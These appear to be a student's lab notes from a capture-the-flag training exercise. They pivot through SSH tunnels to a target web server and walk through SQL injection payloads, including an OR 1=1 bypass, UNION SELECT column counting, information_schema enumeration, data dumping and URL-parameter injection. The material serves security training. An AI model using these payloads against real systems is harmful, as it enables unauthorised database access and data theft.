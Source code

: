Scheme of Maneuver:
>Jump Box
->T1:10.100.28.48

Target Section:

T1
Hostname: donovian-nla
IP: 10.100.28.48
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
Last Known HTTP Port: 80
PSP: Unknown
Malware: Unknown
Action: Conduct approved SQLi Exploitation techniques to collect intelligence.

```
student@lin-ops:~$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -D9050
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1463:10.100.28.48:80
```
open firefox

On the DNLA site identify the flag using the Categories page.
To answer input the characters inside the flag.
go to search page
insert` ' OR 1='1`
to get flag at bottom
to see how many columns you can have run this in search bar `RAM' UNION select 1,2 #`
to see how many tables are human made `RAM' UNION select Table_schema, table_name FROM information_schema.columns#`
look at name of tables and see that some of them look different than the others 
to see tables and their columns `RAM' UNION select table_name, column_name FROM information_schema.columns#`
`RAM' UNION select name, description FROM sqlinjection.products#` this command selects the columns name, and description from my products table which is in the sqlinjection Table_schema
`RAM' UNION select @@version, 1 FROM information_schema.columns #`using the 1 as a filler and the table_schema.table_name should not really matter but the @@version is to find the version of sql
can also run in the url if you have a category for example on this page specifically pressing the button "1st category" adds a ? to the end of the url and "category=1" then you can run sql injections in the url
for example
`....php?category=2 UNION select data,mime,id FROM sqlinjection.share4`
